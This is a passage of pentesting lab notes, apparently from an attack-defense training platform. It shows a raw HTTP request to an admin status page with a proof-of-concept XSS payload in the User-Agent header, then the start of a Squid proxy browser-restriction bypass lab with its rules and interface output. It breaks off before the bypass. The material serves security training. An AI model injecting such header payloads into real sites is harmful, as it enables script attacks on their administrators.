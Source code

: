 `HTTP Request`:
```http
GET /main/admin/system_status.php?section=webserver HTTP/2 📌
Host: e9rkq8lenrm2q6cbn09m2173h.eu-central-6.attackdefensecloudlabs.com
Cookie: ch_sid=t6d0u4jtrungkuui4jnqr32445; TestCookie=cookies_yes
User-Agent: <script>confirm(0)</script> 📌
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

---

## Evasion

### Bypassing Squid Proxy - Browser Based Restrictions

#### Lab Environment

**Squid: Browser Based Restriction**

[Squid](http://www.squid-cache.org/) is a caching web proxy. <u>The target machine as described below is running squid proxy. The proxy is configured only to serve requests coming from a specific web browser (i.e. Firefox). A web portal is running on the target machine. This portal is reachable only via the proxy</u>.

**Objective**: You have to figure out a way to access the web portal and retrieve the flag!

Instructions: 
- This lab is dedicated to you! No other users are on this network :)
- Once you start the lab, you will have access to a root terminal of a Kali instance
- Your Kali has an interface with IP address `192.X.Y.Z`. Run `ip addr` to know the values of X and Y.
- The Target machine should be located at the IP address `192.X.Y.3`.
- Do not attack the gateway located at IP address `192.X.Y.1`.
- `postgresql` is not running by default so `Metasploit` may give you an error about this when starting.

#### Lab Solution

`ifconfig eth1`:
```
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.122.81.2 📌 netmask 255.255.255.0  broadcast 192.122.81.255
        ether 02:42:c0:7a:51:02  txqueuelen 0  (Ethernet)
        RX packets 16  bytes 1376 (1.3 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
